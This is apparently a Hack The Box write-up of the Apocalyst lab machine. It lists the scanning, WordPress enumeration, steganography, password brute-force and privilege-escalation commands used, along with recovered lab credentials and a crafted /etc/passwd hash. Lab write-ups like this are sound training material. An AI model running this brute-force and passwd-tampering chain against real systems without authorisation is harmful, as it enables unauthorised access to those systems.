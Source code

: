 # Hack the Box - Apocalyst

```CSS
Machine IP: 10.10.10.46
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.46 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.46
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```CSS
▶ nmap -sV -sC -p 22,80 10.10.10.46 -oN deep.nmap

Nmap scan report for 10.10.10.46
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fdab0fc922d5f48f7a0a2911b404dac9 (RSA)
|   256 7692390a57bdf0032678c7db1a66a5bc (ECDSA)
|_  256 1212cff17fbe431fd5e66d908425c8bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apocalypse Preparation Blog
|_http-generator: WordPress 4.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.18 seconds
```

---

## HTTP
![image](https://user-images.githubusercontent.com/83878909/234799547-1b6562ae-e097-4a3a-9754-2e248dd220c4.png)

```CSS
echo "10.10.10.46 apocalyst.htb" >> /etc/hosts
```

![image](https://user-images.githubusercontent.com/83878909/234800289-380fc0b7-bc5b-4345-85f8-9bccb4587432.png)

![image](https://user-images.githubusercontent.com/83878909/234801910-0504a32c-a82c-42f7-9d3a-6bf60cd08204.png)

---

## WordPress
  - WPScan
```CSS
▶ wpscan --url http://apocalyst.htb --enumerate vt,tt,u,ap
```
![image](https://user-images.githubusercontent.com/83878909/234813681-91b0486b-2fd0-4c1b-91db-1cbc0e6aa921.png)
  - Username found, no other useful information was given by wpscan.
```CSS
▶ Username: falaraki
```

---

## Content Discovery
  - Gobuster
```CSS
▶ gobuster dir -u http://apocalyst.htb -w /seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash --threads 50 --exclude-length 157
```
![image](https://user-images.githubusercontent.com/83878909/234814248-b2ce6fa6-335f-47f0-9150-4a97ce13774e.png)


### Custom Wordlist
```CSS
▶ cewl http://apocalyst.htb -w apocalyst.lst
```

### Content Discovery - Custom Worlist
  - Gobuster
```CSS
▶ gobuster dir -u http://apocalyst.htb -w apocalyst.lst --add-slash --threads 50 --exclude-length 157
```
![image](https://user-images.githubusercontent.com/83878909/234815066-2eb4c565-5800-44b4-9843-a0f45ac84797.png)
![image](https://user-images.githubusercontent.com/83878909/234815258-c8eff383-2cde-41c5-84fb-304e757ca0bf.png)

---

## Stegnography
  - Extract data from the image.
```CSS
▶ steghide extract -sf image.jpg
```
  - Wordlist
![image](https://user-images.githubusercontent.com/83878909/234817333-503e3c8e-a882-48f7-9560-74d930d56867.png)

---

## WordPress Credentials Brute-Force
  - WPScan to brute-force user `falaraki`'s password.
```CSS
▶ wpscan --url http://apocalyst.htb --passwords list.txt --usernames falaraki
```
![image](https://user-images.githubusercontent.com/83878909/234819624-ea7096ae-0f37-4a32-bace-63ff7bfb7b91.png)
```CSS
Credentials: falaraki:Transclisiation
```

---

## WordPress Command Injection
  - Login to Wordpress.
![image](https://user-images.githubusercontent.com/83878909/234836050-ea4e4edf-7f91-43d5-b761-fdd6f0d2376b.png)

![image](https://user-images.githubusercontent.com/83878909/234836839-e3e1e0c4-d800-4e97-bf9b-e2a6343295c1.png)
![image](https://user-images.githubusercontent.com/83878909/234837446-329b574b-932d-4681-84f2-4bb6e3236f31.png)

---

## Initial Foothold
![image](https://user-images.githubusercontent.com/83878909/234841446-6dc35a83-0d2a-48e8-9254-fcd15073189b.png)
![image](https://user-images.githubusercontent.com/83878909/234841296-52b80dfc-6a73-4a0b-8045-ceba14e57f5e.png)

## Privilege Escalation
  - Upload and Execute `LinEnum.sh`.
![image](https://user-images.githubusercontent.com/83878909/234843155-1849834f-3d3b-4046-ad86-57966717173c.png)

  - Writeable `/etc/passwd` file.
![image](https://user-images.githubusercontent.com/83878909/234844540-b33dfab0-c742-414c-8e67-e470a551fd84.png)

  - Generate Password
```CSS
▶ openssl passwd -1 -salt random passwd123
$1$random$UuecLMKsRjAA/tqoL9SKL.
```
![image](https://user-images.githubusercontent.com/83878909/234854606-78438923-1830-4c04-9d3f-56fad5e1c9f8.png)

